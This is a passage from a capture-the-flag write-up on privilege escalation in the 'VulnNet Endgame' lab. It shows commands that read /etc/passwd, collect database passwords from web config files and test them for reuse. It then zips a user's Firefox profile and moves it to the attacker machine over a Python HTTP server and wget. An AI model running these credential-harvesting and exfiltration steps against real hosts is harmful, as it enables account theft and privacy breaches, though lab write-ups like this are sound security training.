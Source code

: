 # Privilege Escalation

## www-data to system

**Found user `system`:**
```
www-data@vulnnet-endgame:/tmp$ cat /etc/passwd | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
system:x:1000:1000:system,,,:/home/system:/bin/bash
```

**Found MySQL credentials in /var/www/admin1/typo3conf/LocalConfiguration.php:**
```php
'dbname' => 'vn_admin',
'driver' => 'mysqli',
'host' => '127.0.0.1',
'password' => 'q2SbGTnSSWB95',
```

I tried password reuse for the user `system`, but no dice.

**Found another MySQL credentials in /var/www/api/index.php:**
```php
$servername = "localhost";
$username = "dbadmin";
$password = "q2SbGTnSSWB95";
```

Again. tried password reuse for use `system`, but no luck.

**Found another MySQL credentials again in /var/www/html/typo3-2/typo3conf/LocalConfiguration.php:**
```php
'dbname' => 'typo33',
'driver' => 'mysqli',
'host' => '127.0.0.1',
'password' => 'SuperSecret321',
```

Again, failed for password reuse.

In user `system`'s home directory, there is a `.mozilla` directory, **which holds firefox's history of it's user**:

```
www-data@vulnnet-endgame:/home/system$ ls -lah
[..]
drwxr-xr-x  4 system system 4.0K Jun 14 11:56 .mozilla
```

Let's `zip` the entire `.mozilla` and transfer it to the atttacker machine:

```
www-data@vulnnet-endgame:/home/system$ zip -r /tmp/browser.rar /home/system/.mozilla/

www-data@vulnnet-endgame:/home/system$ cd /tmp
www-data@vulnnet-endgame:/tmp$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

┌──(root🌸siunam)-[~/ctf/thm/ctf/Vulnnet-Endgame]
└─# wget http://$RHOSTS:8000/browser.rar

┌──(root🌸siunam)-[~/ctf/thm/ctf/Vulnnet-Endgame]
└─# unzip browser.rar
```
